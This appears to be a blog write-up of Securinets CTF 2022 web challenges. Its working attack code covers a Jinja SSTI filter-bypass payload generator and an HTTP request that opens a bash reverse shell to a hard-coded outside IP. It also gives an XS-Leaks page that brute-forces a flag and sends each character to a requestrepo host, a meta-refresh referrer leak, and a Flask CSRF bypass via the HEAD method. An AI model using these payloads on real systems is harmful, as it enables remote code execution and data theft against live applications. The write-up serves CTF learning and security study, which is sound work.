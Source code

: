 ```yaml
---
title: 'Securinets CTF 2022'
description: "Some things I've learned from the Securinets CTF: How to bypass Flask Jinja SSTI WAF, XSLeaks with frame counting and referrer, Flask CSRF bypass"
date: 2022-05-18T00:00:00Z
---
```


Fun CTF, we managed to win the finals after getting 3rd place in the qualifiers. Too bad I couldn't go to Tunisia because of an exam, but I'm glad that my teammates did. 

I've learned a few web tricks from this CTF that I'd like to share.

![](/assets/images/posts/wtl1.png)

* [Flask Jinja SSTI WAF bypass](#wafbypass)
* [Frame counting XSLeaks](#xsleaksframe)
* [Referer XSLeaks](#xsleaksref)
* [Flask CSRF bypass](#csrfbypass)


<a name="wafbypass"></a>
## Flask Jinja SSTI WAF bypass

```py
if re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",request.form['name']) is not None:
    name= "Hacking detected"
```

From the Regex above we see that we're pretty limited with what we can do, no double curly brackets, no dots, no underscore, no ". 

First, we can use {{ '{%' }} {{ '%}' }} syntax to trigger the template injection. Then, instead of `.` we can use `|attr('attribute')`. 

To bypass other values, we can simply use request.args.argName and pass the values via HTTP.

Writing all of that by hand can lead to human error, so it's better to automate the process:

```py
import re

"""
{{ '{%' }} if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('sleep 5')['read']() == 'chiv' {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
"""

payload = "{{ '{%' }} if (((request|ATR_A|ATR_B|ATR_C|ATR_D)(JST_E)|ATR_F)(JST_G)|ATR_I)() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"
payload = "{{ '{%' }} if (request|ATR_A|ATR_B|attr('get')(JST_C)|attr('get')(JST_D))(JST_E)|ATR_F(JST_G)|ATR_I() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}"

regex = "('[a-z_ 0-9]+')"
regex_a = "ATR_([A-Z])"
regex_b = "JST_([A-Z])"

for p in re.findall(regex_a, payload):
    x = f"attr(request|attr('args')|attr('get')('{p.lower()}'))"
    payload = payload.replace('ATR_'+p, x)

for p in re.findall(regex_b, payload):
    x = f"request|attr('args')|attr('get')('{p.lower()}')"
    payload = payload.replace('JST_'+p, x)

rez = re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)|\\\\",payload)

if not rez:
    print(payload)
```

The HTTP request:

```
POST /?a=application&b=__globals__&c=__builtins__&d=__import__&e=os&f=popen&g=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/86.122.204.150/4444+0>%261'&i=read HTTP/1.1
Host: 128.199.3.34:1234
Content-Length: 395
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://128.199.3.34:1234
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://128.199.3.34:1234/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

name={{ '{%' }} if (request|attr(request|attr('args')|attr('get')('a'))|attr(request|attr('args')|attr('get')('b'))|attr('get')(request|attr('args')|attr('get')('c'))|attr('get')(request|attr('args')|attr('get')('d')))(request|attr('args')|attr('get')('e'))|attr(request|attr('args')|attr('get')('f'))(request|attr('args')|attr('get')('g'))|attr(request|attr('args')|attr('get')('i'))() {{ '%}' }} a {{ '{%' }} endif {{ '%}' }}
```

<a name="xsleaksframe"></a>
## Frame counting XSLeaks

Suppose we have a search endpoint that includes an iframe in its response when the search query returns at least one result, and no iframes when there's no results.

We can use window.length to read the numbers of iframes embedded in any window, thus leaking information from our search guesses.

To leak the flag we just need to host this HTML payload on our website and send it to the admin:

```html
<body>
<iframe src="" id="theTarget" name="thewindow"></iframe>
</body>

<script>

window.idx = 0;
window.alph='_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}';
window.flag = 'Securinets{';

function check()
{
    var el = document.getElementById("theTarget");
    if (thewindow.length == 1) {
        window.flag += window.alph[window.idx];
        fetch('https://8mgwcnnq.requestrepo.com/'+window.flag);
        window.idx = 0;
    } else {
        window.idx += 1;
    }
    if (window.idx < window.alph.length)
    {
        var el = document.getElementById("theTarget");
        el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
    }
}

var el = document.getElementById("theTarget");

el.onload = check;

el.src = "https://20.124.0.135/search?query="+window.flag+window.alph[window.idx]+":960I3DATT3D43Z8G2QG7Z76V0YXZJMRR1H2R6YTQEJ2994SF1ZOHACKG69RSKZ9M";
</script>
```

<a name="xsleaksref"></a>
## Referer XSLeaks

Suppose we have an endpoint that returns the number of search results that match our query as a GET parameter. The endpoint doesn't return the actual content of the search results.

If we can inject arbitrary HTML, but no XSS / Object / Embed due to CSP, then we can make the page redirect to our website + leak the search parameters using the `<meta>` tag:

```html
<meta name="referrer" content="unsafe-url">
<meta http-equiv="refresh" content="0;url=https://wr0j8do9.requestrepo.com/" />
```


<a name="csrfbypass"></a>
## Flask CSRF bypass

```py
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)

@app.route('/create_paste', methods=['POST','GET'])
def create():
    if request.method=="GET":
        if 'username' not in session:
            return redirect('/login')
        return render_template("create_paste.html")
    else:
        if 'username' not in session:
            return redirect('/login')
        if len(request.values.get('paste'))<200:
            paste_id = create_paste(
                request.values.get('paste'),
                session['username']
            )
            return redirect('/view?id='+paste_id)
        return redirect('/home')
```

Can you spot the vulnerability in the code above? 

Flask will accept the HEAD method as well and the else doesn't test if the method is POST.

With that, we can bypass CSRFProtect :)